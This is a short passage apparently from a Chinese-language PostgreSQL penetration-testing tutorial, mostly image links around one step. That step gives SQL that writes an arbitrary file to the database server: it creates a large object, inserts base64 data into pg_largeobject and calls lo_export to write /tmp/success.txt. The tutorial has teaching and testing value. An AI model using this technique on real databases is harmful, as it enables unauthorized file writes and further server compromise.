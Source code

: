 [![](assets/1710209150-b2ffbe4f40e2c4a116123a135ee6a014.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/36.png)

[![](assets/1710209150-e8da2e18912c4b8fe1bc179192c1d519.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/37.png)

**方法 3 lo\_export + pg\_largeobject**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>-- 记下生成的lo_creat ID<br>select lo_creat(-1);<br><br>-- 替换 24577 为生成的lo_creat ID<br>INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));<br>select lo_export(24577, '/tmp/success.txt');<br>``` |

[![](assets/1710209150-4749c889e071d0e0f1dcc778380e061f.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/31.png)

[![](assets/1710209150-5aede265ca43249244229897ccf8654c.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/32.png)
